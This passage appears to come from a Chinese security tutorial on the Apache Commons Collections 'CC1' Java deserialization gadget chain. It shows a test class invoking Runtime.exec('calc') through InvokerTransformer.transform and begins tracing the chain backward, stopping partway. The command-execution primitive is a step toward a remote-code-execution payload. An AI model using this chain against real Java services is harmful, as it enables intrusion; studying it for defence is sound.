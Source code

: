因为我们发现的`InvokerTransformer`能够通过反射来调用方法，所以我们尝试能不能用`InvokerTransformer`里面的`transform`来执行命令

```plain
package exp;

import org.apache.commons.collections.functors.InvokerTransformer;

import java.lang.reflect.Method;

public class CC1Test {
    public static void main(String[] args) throws Exception{
//      Runtime.getRuntime().exec("calc");命令执行对应的命令；
        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象
//      Class c = Runtime.class;
//      Method execMethod = c.getMethod("exec",String.class);
//      execMethod.invoke(r,"calc");

//      危险类利用测试：我们先调用 InvokerTransformer 的类，传入对应的参数，再找到对应的构造函数
//      public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args)//传参对应的是规定类型的数组，用来存放参数类型和参数值，所以我们要用它给的形式来进行传参；
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);

    }
}
```

### 调用链：

#### 后半条链：

[![](assets/1701612311-f7d6f6f3895634dc336c35f680c39849.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712234956-bfddba44-20cb-1.png)

*   我们已经找到了 InvokerTransformer.transform 中能够调用危险方法，所以我们就需要往前找一个能调用 transform 的类：
*   这里我们要找的就是对应的不同名字调用 transform，这样我们就能再往前找不同的类，所以这里 transform 调用 transform 的就没有很大的价值了

[![](assets/1701612311-c04fcf45a6ca015ebfc2abf1d465fe5a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235004-c4a559ec-20cb-1.png)
